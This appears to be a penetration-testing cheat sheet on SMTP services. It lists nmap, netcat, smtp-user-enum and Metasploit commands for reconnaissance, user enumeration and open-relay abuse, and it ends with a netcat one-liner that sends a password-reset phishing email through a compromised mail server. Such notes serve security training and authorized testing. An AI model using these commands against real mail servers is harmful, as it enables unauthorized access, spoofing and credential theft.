 ## Penetration Testing Techniques

### External Reconnaissance

#### Port Scanning

*   **Tool:** \[\[Nmap]]

    ```bash
    nmap <target_ip> -p 25,587,465
    ```
* **Description:** Identifies if the target service is running on the target by scanning target port.

#### Service Enumeration

*   **Tool:** \[\[NetCat]]

    ```bash
    nc <target_ip> 25
    ```
* **Description:** Retrieves the service banner to identify the software version and potential vulnerabilities.

#### SMTP Enumeration

*   **Tool:** \[\[SMTP-User-Enum]]

    ```bash
    smtp-user-enum -M VRFY -U users.txt -t <target_ip>
    ```
* **Description:** Enumerates valid users on the SMTP server by exploiting commands like `VRFY` and `EXPN`.

### Initial Access

#### Exploiting Open Relay

*   **Tool:** \[\[Metasploit]]

    ```bash
    use auxiliary/scanner/smtp/smtp_open_relay
    set RHOSTS <target_ip>
    run
    ```
* **Description:** Exploits an open SMTP relay to send emails without authentication, which can be used to spoof emails or send spam.

#### Phishing via Compromised SMTP

*   **Tool:** \[\[Custom Scripts]]

    ```bash
    echo -e "EHLO example.com\nMAIL FROM:<compromised@example.com>\nRCPT TO:<victim@example.com>\nDATA\nSubject: Urgent Update\n\nClick here to update your password.\n.\nQUIT" | nc <target_ip> 25
    ```
* **Description:** Sends phishing emails from a compromised SMTP server, potentially leading to credential theft or further network compromise.
